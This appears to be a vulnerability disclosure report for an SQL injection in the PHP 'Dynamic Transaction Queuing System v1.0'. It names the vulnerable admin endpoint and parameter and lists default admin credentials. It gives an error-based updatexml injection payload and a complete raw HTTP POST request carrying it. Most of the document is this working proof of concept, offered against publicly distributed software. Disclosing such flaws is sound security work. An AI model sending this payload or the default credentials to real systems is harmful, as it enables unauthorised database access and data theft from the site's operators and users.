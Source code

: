 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer:  Yang Tao, TBLab of Venustech

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/admin/ajax.php?action=delete_uploads

Vulnerability location: /queuing/admin/ajax.php?action=delete_uploads, id

dbname =queuing_db

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0) // Leak place ---> id

```sql
POST /queuing/admin/ajax.php?action=delete_uploads HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)
```

![image](https://user-images.githubusercontent.com/54017627/200097736-3ffdf080-b8e5-4b58-a2af-f14347f61849.png)
